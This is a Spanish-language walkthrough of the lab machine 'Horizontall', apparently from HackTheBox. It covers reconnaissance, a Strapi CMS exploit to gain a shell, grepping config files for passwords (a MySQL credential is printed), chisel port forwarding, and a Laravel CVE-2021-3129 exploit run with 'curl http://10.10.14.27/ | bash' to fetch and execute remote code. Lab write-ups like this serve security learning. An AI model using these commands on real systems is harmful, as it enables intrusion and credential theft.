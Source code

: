 # Horizontall

Tags: [[_webFuzzing]],[[_infoLeakage]],[[_cms]],[[_api]],[[_webExploitation]],[[_internalPortAbusing]],[[_cve]]

## Primeros pasos
(Reconocimiento).

<span style="color:#07b4f2">Organizamos</span> <span style="color:#ff2dc0">TMUX</span>.
<span style="color:#07b4f2">Activamos</span> <span style="color:#ff2dc0">VPN</span>.

Le <span style="color:#07b4f2">hacemos</span> un <span style="color:#ff2dc0">ping</span> <span style="color:#07b4f2">a</span> la <span style="color:#ff2dc0">máquina</span>. (<span style="color:#379075">Está activa o no</span>).
<span style="color:#bef202">Posible</span> <span style="color:#ff2dc0">máquina Linux</span>.

<span style="color:#07b4f2">Ponemos</span> la <span style="color:#ff2dc0">IP</span> de la <span style="color:#ff2dc0">máquina</span> <span style="color:#07b4f2">en</span> un <span style="color:#07b4f2">lugar visible</span>.
<span style="color:#07b4f2">Creamos</span> un <span style="color:#07b4f2">directorio</span> <span style="color:#07b4f2">como</span> la <span style="color:#ff2dc0">IP</span> o <span style="color:#07b4f2">nombre</span> de la <span style="color:#ff2dc0">máquina</span>.
<span style="color:#07b4f2">Creamos</span> los <span style="color:#07b4f2">directorios</span> de <span style="color:#07b4f2">trabajo</span>.

<span style="color:#bef202">Empezamos el escaneo con</span> <span style="color:#ff2dc0">NMAP</span>. <span style="color:#379075">Otro escaneo de puertos comunes por posibles falsos negativos</span>.
<span style="color:#07b4f2">Buscamos</span> <span style="color:#ff2dc0">codename</span> con <span style="color:#ff2dc0">launchpad</span>, <span style="color:#bef202">un posible</span> <span style="color:#ecacb6">Ubuntu Bionic</span>.

+ <span style="color:#ff669c">Puertos abiertos</span>

| Port                                  | Service           |
| ------------------------------------- | ----------------- |
| <span style="color:#ff669c">22</span> | OpenSSH 7.6p1     |
| <span style="color:#ff669c">80</span> | HTTP Nginx 1.14.0 |


## Investigación (Intrusión)
(Reconocimiento/Enumeración).

<span style="color:#ff669c">22</span>.
<span style="color:#07b4f2">No tengo</span> <span style="color:#ff2dc0">credenciales</span> válidas.
<span style="color:#07b4f2">Versión inferior</span> a la <span style="color:#ecacb6">7.7</span>, en <span style="color:#07b4f2">cuanto tengamos</span> posibles <span style="color:#07b4f2">usuarios</span> los tratamos de <span style="color:#07b4f2">validar</span>.


<span style="color:#ff669c">80</span>.
<span style="color:#ff2dc0">NMAP</span>. Redirect to <span style="color:#ecacb6">horizontall.htb</span>, lo <span style="color:#07b4f2">metemos en</span> el <span style="color:#ecacb6">/etc/hosts</span>
<span style="color:#ff2dc0">whatweb</span>. No mucho.
<span style="color:#ff2dc0">Desde la web</span>. No mucho.
<span style="color:#ff2dc0">Código fuente</span>
<span style="color:#88c425">curl -s -X GET "http://horizontall.htb/index.html" | htmlq -p | cat -l html</span> :    vemos varias <span style="color:#ff2dc0">rutas</span>, entre ellas
<span style="color:#ecacb6">/js/app.c68eb462.js</span> :    en el <span style="color:#ff2dc0">código</span> vemos <span style="color:#07b4f2">un</span> <span style="color:#ff2dc0">subdominio</span> (<span style="color:#379075">hacemos curl, grep horizontall --color, para ver cosas asociadas</span>).
<span style="color:#ecacb6">api-prod.horizontall.htb</span>

<span style="color:#ff2dc0">Desde la web</span>. Solo dice "<span style="color:#ecacb6">Welcome</span>".
<span style="color:#ff2dc0">Wappalizer</span>. Trabaja con <span style="color:#ff2dc0">CMS Strapi</span>.
<span style="color:#07b4f2">Buscamos</span> <span style="color:#ecacb6">strapi exploit</span> en <span style="color:#ff2dc0">Internet</span> y en contramos
https://www.exploit-db.com/exploits/50239 :    en <span style="color:#ff2dc0">searchsploit</span> también <span style="color:#07b4f2">se ve</span>.
Vamos <span style="color:#07b4f2">viendo</span> la <span style="color:#07b4f2">versión</span> para <span style="color:#07b4f2">confirmar</span> la <span style="color:#ff2dc0">vulnerabilidad</span>, y lo es.

<span style="color:#bef202">Proceder</span>.
<span style="color:#88c425">python3 50239.py http://api-prod.horizontall.htb</span> :    nos mete en una <span style="color:#07b4f2">tipo</span><span style="color:#ff2dc0"> web shell</span> para <span style="color:#ff2dc0">ejecutar comandos</span>, <span style="color:#07b4f2">hacemos</span> una <span style="color:#ff2dc0">reverse shell</span> y pa deeentro.


## Escalada

Enumerar todo el sistema.
Efectivamente, un Ubuntu Bionic.

<span style="color:#ecacb6">root</span>
<span style="color:#ecacb6">tom</span> 
<span style="color:#ecacb6">strapi</span> -> como el que estamos.

<span style="color:#88c425">netstat -nat</span> :    <span style="color:#07b4f2">vemos</span>
<span style="color:#ecacb6">127.0.0.1:1337</span>
<span style="color:#ecacb6">127.0.0.1:8000</span>

<span style="color:#88c425">curl localhost:8000</span> :    vemos que <span style="color:#07b4f2">trabaja</span> con <span style="color:#ff2dc0">Laravel v8</span> (<span style="color:#ff2dc0">PHP v7.4.18</span>).

En <span style="color:#ecacb6">/opt/strapi/myapi/config</span>
<span style="color:#88c425">grep -r "password"</span> :    <span style="color:#07b4f2">encontramos</span> cositas.
<span style="color:#ecacb6">./environments/development/database.json</span> :    <span style="color:#ff2dc0">credenciales</span> para <span style="color:#ff2dc0">mysql</span> <span style="color:#ecacb6">developer:#J!:F9Zt2u</span>
<span style="color:#379075">Nada interesante</span>.

Usamos <span style="color:#ff2dc0">chisel</span> para hacer un <span style="color:#ff2dc0">Remote Port Forwarding</span> y <span style="color:#07b4f2">alcanzar</span> el <span style="color:#ff669c">puerto 8000</span> <span style="color:#ff2dc0">interno</span> en la <span style="color:#ff2dc0">máquina víctima</span>.
<span style="color:#07b4f2">Buscando</span> en Internet por <span style="color:#ff2dc0">vulnerabilidades</span> de <span style="color:#ff2dc0">Laravel v8</span>, y encontramos <span style="color:#ecacb6">CVE-2021-3129</span>, <span style="color:#07b4f2">buscamos</span> un <span style="color:#ff2dc0">exploit</span> y encontramos
https://github.com/nth347/CVE-2021-3129_exploit
Hacemos
<span style="color:#88c425">python3 exploit.py http://localhost:8000/ Monolog/RCE1 "curl http://10.10.14.27/ | bash"</span>
Y pa deeentro.
Fin.
